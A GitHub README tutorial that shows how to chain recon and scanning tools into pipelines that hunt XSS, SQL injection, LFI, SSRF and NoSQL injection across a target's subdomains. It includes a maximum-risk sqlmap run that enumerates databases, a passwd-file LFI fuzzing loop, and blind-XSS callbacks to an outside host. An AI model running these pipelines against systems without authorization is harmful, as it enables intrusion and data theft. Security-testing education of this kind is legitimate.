 # AutomationGuide
Learn how to automate XSS, SSRF, LFI, SQLI, NoSQLi

Content:
* <a href="https://github.com/DevanshRaghav75/AutomationGuide/blob/main/README.md#tools-needed-for-automation">Tools for automation</a>
* <a href="https://github.com/DevanshRaghav75/AutomationGuide/blob/main/README.md#xss-automation">XSS automation</a>
* <a href="https://github.com/DevanshRaghav75/AutomationGuide/blob/main/README.md#sql-injection-automation">SQL injection automation</a>
* <a href="https://github.com/DevanshRaghav75/AutomationGuide/blob/main/README.md#lfi-automation">LFI automation</a>
* <a href="https://github.com/DevanshRaghav75/AutomationGuide/blob/main/README.md#ssrf-automation">SSRF automation</a>
* <a href="https://github.com/DevanshRaghav75/AutomationGuide/blob/main/README.md#nosql-injection-automation">NoSQL injection automation</a>
* <a href="https://github.com/DevanshRaghav75/AutomationGuide/blob/main/README.md#special-thanks">Special thanks</a>

## Tools needed for automation

* <a href="https://github.com/projectdiscovery/subfinder">Subfinder</a>
* <a href="https://github.com/projectdiscovery/httpx">httpx</a>
* <a href="https://github.com/tomnomnom/waybackurls">waybackurls</a>
* <a href="https://github.com/sqlmapproject/sqlmap">sqlmap</a>
* <a href="https://github.com/hahwul/dalfox">dalfox</a>
* <a href="https://github.com/tomnomnom/qsreplace">qsreplace</a>
* <a href="https://github.com/ffuf/ffuf">ffuf</a>
* <a href="https://github.com/Charlie-belmer/nosqli">nosqli</a>
* <a href="https://github.com/tomnomnom/gf">gf</a>
* <a href="https://github.com/1ndianl33t/Gf-Patterns">Gf_Patterns</a>

## XSS automation 

You can automate XSS by the following steps:

**STEP 1**<br>

*Find the subdomains of the target:*

```
$ subfinder -d example.com | tee -a domains.txt
```
`-d` is to specify the target domain and `tee -a domains.txt` will save the output to a file.

**STEP 2**<br>
*Find the domains that are alive:*
```
$ cat domains.txt | httpx | tee urls.alive 
```
`cat domains.txt` will open the file and `httpx` will find the domains that are alive and `tee urls.alive` will save the output to a file.

**STEP 3**<br>
*Fetch known URLs from the Wayback Machine:*
```
$ cat urls.alive | waybackurls | tee wayback.urls
```
`cat urls.alive` will open the file and `waybackurls` will fetch the URLs from Wayback Machine and `tee wayback.urls` will save the output to a file. 

**STEP 4**<br>
*Find the XSS pattern URLs from wayback.urls:*
```
$ gf xss wayback.urls >> urls.xss
```
`gf xss` is to specify that you have to find the URLs that have XSS patterns from `wayback.urls` file and `>> urls.xss` will save the output to a file.

**STEP 5**<br>
*Find XSS using dalfox:*
```
$ dalfox -b hahwul.xss.ht file urls.xss
```
`-b` is to specify the blind XSS payload and `file urls.xss` is the file that contains XSS pattern URLs. 

## SQL injection automation
You can automate SQL injection by the following steps:

* NOTE: The steps are same as XSS upto STEP 3 

**STEP 4**<br>
*Find the SQLI pattern URLs from wayback.urls:*
```
$ gf sqli wayback.urls >> urls.sqli
```
`gf sqli` is to specify that you have to find the URLs that have SQLI patterns from `wayback.urls` file and `>> urls.sqli` will save the output to a file.

**STEP 5**<br>
*Find SQL injection using sqlmap*
```
$ sqlmap -m urls.sqli --level 5 --risk 3 --batch --dbs --tamper=between 
```
`-m` is to specify the multiple targets file which is `urls.sqli`, `--level 5` will increase the level of scanning and exploitation, `--risk 3` allows the type of payloads used by the tool. By default, it uses value 1 and can be configured up to `level 3`. Level 3, being the `maximum`, includes some `heavy SQL queries`. The level defines the number of `checks/payload` to be performed, `--batch` will automatically answer the Y/N questions, `--dbs` is to find all databases if the vulnerability exists and `--tamper` is to add a script.

## LFI automation
You scan automate LFI by this single command:
```
$ subfinder -d example.com | waybackurls | gf lfi | qsreplace FUZZ | while read url ; do ffuf -u $url -mr "root:x" -w payloads_wordlist.txt ; done
```
`subfinder -d example.com` will find the subdomains, `waybackurls` will fetch the URLs from wayback machine, `gf lfi` will find the lfi pattern URLs, `qsreplace` will replace the value after `=` to `FUZZ`, `while read url` is a while loop that will read the URLs and `ffuf -u $url -mr "root:x" -w payloads_wordlist.txt` will find the LFI vulnerability.    

## SSRF automation
You can automate SSRF by the following steps:

* NOTE: The steps are same as XSS upto STEP 3 

**STEP 4**<br>
*Find the SSRF pattern URLs from wayback.urls:*
```
$ gf ssrf wayback.urls >> urls.ssrf
```
`gf ssrf` is to specify that you have to find the URLs that have SSRF patterns from `wayback.urls` file and `>> urls.ssrf` will save the output to a file.

**STEP 5**<br>
*Replace the values after `=` to burp collaborator payload:*
```
$ cat urls.ssrf | qsreplace Burp collaborator payload >> ssrf.urls_ffuf
```

**STEP 6**
*Find ssrf using ffuf:*
```
$ ffuf -c -w ssrf.urls_ffuf -u FUZZ
```
`-w` is to specify the SSRF URLs and `-u` is to specify the URL.

Now check your burp collaborator if there is any execution.

## NoSQL injection automation
You can automate the NoSQL injection using nosqli tool:

*For example you found a URL like - `http://localhost:4000/user/lookup?=&username=test` so lets automate the process of exploitation*   
```
$ nosqli scan -t http://localhost:4000/user/lookup?username=test
```
`scan` is to start scanning on the target and `-t` is to specify the target. 

## Special thanks

A big thanks to all the developers who developed these amazing tools!




